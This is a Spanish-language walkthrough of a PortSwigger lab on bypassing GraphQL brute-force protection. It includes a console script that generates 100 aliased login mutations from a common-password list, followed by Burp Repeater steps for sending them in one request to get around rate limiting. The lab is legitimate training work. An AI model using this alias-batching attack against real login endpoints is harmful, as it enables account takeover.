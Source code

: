
### LAB: GraphQL Bypassing Brute Force Protections

* Para este necesitamos el cheatsheet de passwords de portswigger [link](https://portswigger.net/web-security/authentication/auth-lab-passwords) o sencillamente mi `Passwords List` 

Esta jodidamente largo y pa crear una request con cada alias de posible contraseña es una vaina muy larga de hacer, el lab deja un tip extra para eso y este `script` que nos ahorra el proceso:

```js
copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>` bruteforce$index:login(input:{password: "$password", username: "carlos"}) { token success } `.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
```

Y ese script lo tiro en la console tab del modo desarrollador luego de inspeccionar, en el panel de login.

Y puedo usar lo `aliases` generado ahí mismo para el proposito del rate limit, luego de tirarlo en la consola ya me queda copiado esos 100 aliases y es cuestion de pegarlo en el endpoint vulnerable: 

```js
1. Ahora es cuestión de interceptar la petición legitima de login y irme a extensiones y decir generate queries with inQL Scanner y luego analizar los queries o bueno en este caso el mutations que es del login. 

2. Y mando ese pa repeater, pa luego remplazar la propiedad login(input: $input){...} por todo el poco de alias de login que me genero el script copy(), ahora bien mutation solo debe estar asi: 
* mutation {...} no debe tener argumentos porque no vamos a pasar variables, vamo' a directamente tirarle los alias dentro de mutation, jimentendés? (imagen de abajo...)

3. Toca seleccionar a todos los mutations en repeater y darles un tab pa que queden bien identados y cerciorarse de que la ultima llave sea la de `mutation`

4. Ahora solo seria filtrar por el atributo de login success que esté en true y esé mismo basicamente verificó el alias #bruteforce64 y listo:
```

![](Pasted%20image%2020250428212724.png)

